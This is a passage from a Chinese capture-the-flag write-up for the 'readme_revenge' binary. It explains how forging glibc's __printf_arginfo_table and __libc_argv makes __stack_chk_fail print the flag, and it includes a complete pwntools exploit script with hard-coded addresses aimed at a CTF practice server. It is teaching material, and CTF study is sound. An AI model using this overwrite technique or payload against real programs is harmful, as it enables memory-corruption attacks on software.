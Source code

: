 利用方法就是我们这里的printf注册函数的调用链，伪造`__printf_arginfo_table`，将`table['s']`改为`_stack_chk_fail_local`地址，将`__libc_argv`改为输入地址，在输入开始存放`flag_addr`。最终会调用`stack_chk_fail`来输出flag。注意这里的arginfo函数指针应该先于`__printf_function_table`的函数指针调用，所以我们改前者，后者不为NULL就好。

```
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./readme_revenge')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./readme_revenge')

else:
    libc = ELF('./libc_local')
    p = remote('f.buuoj.cn',20173)

printf_function_table = 0x6b7a28
printf_arginfo_table = 0x6b7aa8
input_addr = 0x6b73e0
stack_chk_fail = 0x4359b0
flag_addr = 0x6b4040
argv_addr = 0x6b7980

def exp():
    #leak libc
    #gdb.attach(p,'b* 0x400a51')
    payload = p64(flag_addr)
    payload = payload.ljust(0x73*8,'x00')
    payload += p64(stack_chk_fail)
    payload = payload.ljust(argv_addr-input_addr,'x00')
    payload += p64(input_addr)#arg
    payload = payload.ljust(printf_function_table-input_addr,'x00')
    payload += p64(1)#func not null
    payload = payload.ljust(printf_arginfo_table-input_addr,'x00')
    payload += p64(input_addr)#arginfo func
    #raw_input()
    p.sendline(payload)
    p.interactive()

exp()
```

### <a class="reference-link" name="%E8%B0%83%E8%AF%95"></a>调试

可以看到在输入完毕之后伪造的函数指针已经参数已经准备完毕，在调用`printf("..%s..")`的时候会调用我们的注册函数指针输出`argv[0]`处的flag。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.loli.net/2020/04/02/OR1FVMDJvQ6lg8e.png)
